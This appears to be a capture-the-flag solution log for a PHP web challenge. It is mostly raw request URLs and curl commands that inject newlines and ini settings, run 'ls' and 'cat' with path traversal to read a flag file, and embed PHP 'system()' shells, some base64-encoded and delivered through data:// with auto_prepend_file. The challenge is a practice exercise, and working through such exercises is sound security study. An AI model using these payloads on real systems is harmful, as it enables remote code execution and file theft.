 # love-card

Make your own love card for your gf <3

## Solution

http://0.0.0.0:9137

http://0.0.0.0:9137/?name=hello

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp

http://0.0.0.0:9137/?name=hello%0Aworld

http://0.0.0.0:9137/?name=hello%0Aworld&cmd=ls&dev=true

http://0.0.0.0:9137/?name=hello%0Aworld&cmd=ls%20..%2F..%2F..%2F..%2F..%2F..%2F/&dev=true

http://0.0.0.0:9137/?name=hello%0Aworld&cmd=ls%20..%2F..%2F..%2F..%2F..%2F..%2F/&dev=true

http://0.0.0.0:9137/?name=hello%0Aworld&cmd=cat%20..%2F..%2F..%2F..%2F..%2F..%2F/flag_0mny51tj.txt&dev=true



http://0.0.0.0:9137/?name=hello%0Aworld&display_errors=1

http://0.0.0.0:9137/?display_errors=1&name=hello&doc_root=%2F

http://0.0.0.0:9137/?display_errors=1&name=hello&open_basedir=/


```sh
curl --header "X-Forwarded-For: 127.0.0.1" http://0.0.0.0:9137/?name=hello%0Aworld&cmd=ls&dev=true

curl http://0.0.0.0:9137/?name=hello%0Aworld&cmd=ls&dev=true -A "<?php system('ls /'); ?>"
```

Oh wait

```php
<?php system('ls /');?>
// %3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E
// PD9waHAgc3lzdGVtKCdscyAvJyk7Pz4=
```

http://0.0.0.0:9137/?name=hello%0Aworld%0A%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E&display_errors=1

http://0.0.0.0:9137/?name=hello%0Aworld%0A%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E&display_errors=1&error_reporting=1
 
http://0.0.0.0:9137/?name=hello%0Aworld%0A%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E%5C0&display_errors=1

http://0.0.0.0:9137/?display_errors=1&name=hello%0A%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E%5C0

https://bugs.php.net/bug.php?id=69274

http://0.0.0.0:9137/?display_errors=1&name[]=hello%0A%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E%5C0

http://0.0.0.0:9137/?display_errors=1&%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E%5C0[]=hello
 Fatal error: Uncaught TypeError: ini_set(): Argument #2 ($value) must be of type string|int|float|bool|null in /var/www/html/index.php:6 Stack trace: #0 /var/www/html/index.php(6): ini_set('<?php_system('l...', Array) #1 {main} thrown in /var/www/html/index.php on line 6

http://0.0.0.0:9137/?display_errors=1&name=hello%0A%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E%5C0

```sh
curl "http://0.0.0.0:9137/?display_errors=1&allow_url_include=1&name=hello&auto_prepend_file="data://text/plain;base64,PD9waHAgc3lzdGVtKCdscyAvJyk7Pz4="'
```

http://0.0.0.0:9137/?display_errors=1&allow_url_include=1&name=hello&auto_prepend_file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscyAvJyk7Pz4=
http://0.0.0.0:9137/?display_errors=1&allow_url_fopen=1&auto_prepend_file=php://%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E&name=hello;

http://0.0.0.0:9137/?display_errors=1&allow_url_fopen=1&name=php://%3C%3Fphp%20system%28%27ls%20%2F%27%29%3B%3F%3E

http://0.0.0.0:9137/?display_errors=1&allow_url_fopen=1&name=data://PD9waHAgc3lzdGVtKCdscyAvJyk7Pz4=

http://0.0.0.0:9137/?display_errors=1&allow_url_fopen=1&name=php://PD9waHAgc3lzdGVtKCdscyAvJyk7Pz4=

http://0.0.0.0:9137/?display_errors=1&allow_url_fopen=1&name=data://text;base64,PD9waHAgc3lzdGVtKCdscyAvJyk7Pz4=

http://0.0.0.0:9137/?display_errors=1&name$=$

http://0.0.0.0:9137/?display_errors=1&name=\120

http://0.0.0.0:9137/?display_errors=1&name=hello%0A
<?php system('ls /');?>

http://0.0.0.0:9137/?display_errors=1&name=hello%0Aworld;
http://0.0.0.0:9137/?display_errors=1&name=hello%0A%0A%0A%0A%0A%0A%0A%0Aworld;


http://0.0.0.0:9137/?display_errors=1&name=hello%0A%0Aworld